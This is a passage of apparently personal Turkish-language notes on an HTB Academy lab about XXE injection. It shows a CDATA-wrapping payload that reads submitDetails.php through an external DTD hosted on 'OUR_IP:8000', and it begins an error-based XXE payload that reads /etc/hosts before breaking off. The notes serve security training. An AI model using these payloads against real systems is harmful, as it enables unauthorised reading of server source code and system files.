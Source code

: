 Bu nedenle, `submitDetails.php` dosyasını önce yukarıdaki satırı bir DTD dosyasında (örneğin `xxe.dtd`) saklayarak okumaya çalışalım, makinemizde barındıralım ve ardından aşağıdaki gibi hedef web uygulamasında external bir entity olarak referans verelim:

```shell-session
C4RT3L@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
C4RT3L@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Şimdi, external entity'mize (`xxe.dtd`) referans verebilir ve ardından yukarıda tanımladığımız ve `submitDetails.php` dosyasının içeriğini içermesi gereken `&joined;` entity'sini aşağıdaki gibi yazdırabiliriz:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

`xxe.dtd` dosyamızı yazdıktan, makinemizde barındırdıktan ve ardından yukarıdaki satırları savunmasız web uygulamasına HTTP isteğimize ekledikten sonra, nihayet `submitDetails.php` dosyasının içeriğini alabiliriz:

![Pasted image 20250513123509.png](/img/user/resimler/Pasted%20image%2020250513123509.png)

### 13- Error Based XXE ile Dosya Okuma

Öncelikle hatalı biçimlendirilmiş (_malformed_) _XML_ verisi göndererek web uygulamasının herhangi bir hata gösterip göstermediğini kontrol edelim. Bunu yapmak için, kapanış taglarından birini silebilir, bir tagı yanlış yazarak kapatılmamasını sağlayabilir (örneğin `<roo>` yerine `<root>`), ya da var olmayan bir _entity_'ye referans verebiliriz. Örnek:

![Pasted image 20250513134521.png](/img/user/resimler/Pasted%20image%2020250513134521.png)

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Yukarıdaki payload, `file` parameter entity'sini tanımlar ve ardından onu mevcut olmayan bir entity ile birleştirir. Önceki alıştırmamızda, üç stringi birleştiriyorduk. Bu durumda, `%nonExistingEntity;` mevcut değildir, bu nedenle web uygulaması, hatanın bir parçası olarak birleştirilen `%file;` ile birlikte bu varlığın mevcut olmadığını belirten bir hata atacaktır. Hataya neden olabilecek, kötü bir URI veya başvurulan dosyada kötü karakterler olması gibi birçok başka değişken vardır.

Şimdi, external DTD kodumuzu çağırabilir ve ardından aşağıdaki gibi `error` entity'ye başvurabiliriz::
